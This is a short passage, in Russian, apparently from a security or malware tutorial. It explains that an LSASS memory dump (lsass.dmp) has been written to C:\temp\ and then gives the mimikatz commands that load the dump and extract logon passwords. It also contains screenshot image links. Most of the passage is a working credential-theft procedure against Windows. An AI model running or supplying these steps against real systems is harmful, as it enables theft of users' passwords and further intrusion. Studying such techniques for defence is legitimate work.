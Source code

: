 Как можно заметить, `lsass.dmp` создаётся в рабочей директории: `C:\temp\`.     

Затем открываем `mimikatz`, загружаем дамп-файл и извлекаем пароли:      

```powershell
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```

![malware](./images/95/2023-05-11_16-28_1.png){width="80%"}      
